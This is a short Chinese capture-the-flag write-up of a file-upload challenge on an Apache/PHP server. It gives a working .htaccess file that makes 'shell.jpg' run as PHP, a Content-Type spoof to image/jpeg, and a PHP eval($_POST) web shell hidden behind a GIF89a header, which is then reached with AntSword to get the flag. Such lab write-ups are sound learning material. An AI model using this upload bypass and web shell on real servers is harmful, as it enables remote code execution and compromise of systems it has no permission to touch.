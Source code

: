 这个b让我觉得有必要记录一下。
当我按照之前套路走后，回显`文件名不能含ph`，于是又上传了png文件，结果来句`太露骨`。。。
不过尝试jpg文件成功上传。

有爆破或者404报错界面（server类型apache），然后可用.htaccess配置文件，允许服务器将`shell.jpg`解析为php。
上传`.htaccess`文件内容如下

```htaccess
<FilesMatch "shell.jpg">

 SetHandler application/x-httpd-php

</FilesMatch>

```
记得把`Content-Type`修改为`image/jpeg`。
上传后显示
`/var/www/html/upload/2b4099bc206448afdc0ffdf443242c6c/.htaccess succesfully uploaded!`

再上传`shell.jpg`，其内容是(对php文件有过滤所以上script)
```javascript
GIF89a//可有可无
<script language='php'>eval($_POST['shell'])</script>
```
我们再用AntSword连接：
`https://xxx/upload/2b4099bc206448afdc0ffdf443242c6c/shell.jpg`，接下来same就可以得到flag。

---
参考：
<a href=https://www.cnblogs.com/PsgQ/p/14573972.html#/c/subject/p/14573972.html>PS5</a>

<a href=https://zhuanlan.zhihu.com/p/370029419>Content-Type</a>比较重要的一句就是`Content-Type表示内容类型和字符编码。内容类型也叫做MIME类型。是Internet Media Type，互联网媒体类型。在互联网上传输的数据有不同的数据类型，HTTP在传输数据对象时会为他们打上称为MIME的数据格式标签，用于区分数据类型。`绕过过滤机制就是靠这个。

<a href=https://www.cnblogs.com/engeng/articles/5948089.html>.htaccess是什么</a>在文件上传里面的作用`MIME类型配置以及访问权限控制等`